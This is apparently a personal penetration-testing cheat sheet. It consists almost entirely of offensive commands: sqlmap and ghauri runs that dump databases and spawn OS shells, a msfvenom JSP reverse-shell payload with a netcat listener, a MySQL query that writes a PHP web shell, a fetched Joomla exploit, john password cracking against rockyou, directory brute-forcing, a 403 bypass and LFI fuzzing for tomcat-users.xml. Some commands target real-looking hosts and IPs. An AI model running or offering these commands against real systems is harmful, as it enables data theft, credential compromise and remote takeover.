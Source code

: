 ## SQLMAP

sqlmap -u "http://10.17.32.212/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dump-all -p list[fullordering]

ghauri -u "http://www.abc.in/ErrorPage.aspx?enc=+AenvvvnbvntfgBByOwZTA==" --batch --dbs --level 3

python sqlmap .py -r Request.txt -p param --ignore-code 401 --level 5 --risk 2 --batch --os-shell  (for shell)

sqlmap -r request3.txt -p username,password --ignore-code 401 --proxy http://127.0.0.1:8080

sqlmap -u http://testsite.com/page.php?id=1 --dbs

sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all

sqlmap -r request.txt --dbs --risk=3 --level=5    (To scan all parameters in the request)


#### If you found a blind sql or any sql then use this command:

sqlmap -r request3.txt -p username,password --ignore-code 401 --proxy http://127.0.0.1:8080 --dbs

#### Then if database are listed browse to them and list down tables:

sqlmap -r request3.txt -p username,password --ignore-code 401 --proxy http://127.0.0.1:8080 -D databasename --tables

#### Another set of commands

sqlmap -r request3.txt -p column_code,type  --ignore-code 401 --level 5 --risk 3 --force-ssl --mobile --dbs


### Windows command SQLmap

python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p username,emailid --ignore-code 401 --level 5 --risk 3 --force-ssl --mobile --batch --dbs 

python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p UserId,login_type --ignore-code 401 --proxy http://127.0.0.1:8080 -D PROD_QPORT_2 --tables

#### Using tamper script
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p rowID --ignore-code 401 --level 5 --batch --tamper space2plus,space2comment,charencode

#### To browse through directories we use
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p title,content,author --level 2 --ignore-code 401 -D abcde --tables

#### To browse through tables we use
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p email --level 2 --ignore-code 401 -D abcde -T user_details --columns

#### To dump the data
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p email --level 2 --ignore-code 401 -D abcde -T user_details --dump

### RCE (create exploit war file)

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.6.29 LPORT=9999 -f war > shell.war 

nc -nlvp 9999    

### Shell upload using mysql (If web)
```
SELECT "<html><body><?php echo system($_GET['command']); ?></body></html>" into outfile "/usr/share/tomcat9-root/"
```

### Exploit SQLi along with cracking pass

python 46635.py -u http://10.10.146.189/simple/ --crack -w /usr/share/wordlists/rockyou.txt

## Directly Download exploit and run it

wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py

python2.7 joomblah.py http://10.10.91.172

## Identify Hashes

hashes.com

nano hash

cat hash

#### Breaking Hash
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash

## Open .bak Files (SQLite)

wget http://10.10.74.246/custom/js/users.bak

sqlitebrowser users.bak

## Directory Bruteforce Tools

gobuster dir -u https://google.in/abc/documents -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt (dir enum)
          
          gobuster dns -u google.com  (for finding subdomains)

dirsearch -u https://google.in/abc/ -w /usr/share/wordlists/rockyou.txt

####  403 Bypass tool

bash 403-bypass.sh -u https://abc.in/.htaccess --exploit

#### Fuzzing using LFI

wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://49.186.149.89:8081/sh/download?file=../../../../../../../../../../../opt/tomcat/FUZZ/tomcat-users.xml | grep -v "0 L"


